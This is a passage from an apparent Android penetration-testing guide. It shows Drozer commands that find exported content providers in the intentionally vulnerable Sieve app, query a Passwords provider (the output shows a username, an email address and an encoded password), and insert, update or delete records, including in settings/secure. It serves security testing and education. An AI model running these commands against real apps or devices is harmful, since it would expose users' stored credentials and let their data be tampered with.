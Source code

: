 ```bash
  Content Provider: com.mwr.example.sieve.FileBackupProvider
  Multiprocess Allowed: True
  Grant Uri Permissions: False
```

In this example, two content providers are exported. Both can be accessed without permission, except for the /Keys path in the DBContentProvider. With this information, you can reconstruct part of the content URIs to access the DBContentProvider (the URIs begin with content://).

To identify content provider URIs within the application, use Drozer's scanner.provider.finduris module. This module guesses paths and determines accessible content URIs in several ways:

```bash
dz> run scanner.provider.finduris -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/
...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/Keys
Accessible content URIs:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

Once you have a list of accessible content providers, try to extract data from each provider with the app.provider.query module:

```bash
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w== (Base64 - encoded)
email: incognitoguy50@gmail.com
```

You can also use Drozer to insert, update, and delete records from a vulnerable content provider:

* Insert record
  ```bash
  dz> run app.provider.insert content://com.vulnerable.im/messages
                --string date 1331763850325
                --string type 0
                --integer _id 7
  ```
* Update record
  ```bash
  dz> run app.provider.update content://settings/secure
                --selection "name=?"
                --selection-args assisted_gps_enabled
                --integer value 0
  ```
* Delete record
  ```bash
  dz> run app.provider.delete content://settings/secure
                --selection "name=?"
                --selection-args my_setting
  ```
